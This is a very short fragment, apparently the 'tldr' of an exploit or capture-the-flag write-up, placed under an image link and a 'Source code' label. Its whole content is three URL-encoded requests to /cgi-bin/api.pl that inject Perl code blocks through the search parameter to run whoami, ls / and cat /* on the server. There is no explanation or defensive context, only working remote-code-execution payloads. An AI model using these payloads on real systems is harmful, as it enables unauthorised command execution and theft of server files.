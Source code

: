tldr: /cgi-bin/api.pl?search=(?{system(%27whoami%27)})&language=./index.pl
=> /cgi-bin/api.pl?search=(?{system(%27ls%20/%27)})&language=./index.pl
=> /cgi-bin/api.pl?search=(?{system(%27cat%20/*%27)})&language=./index.pl
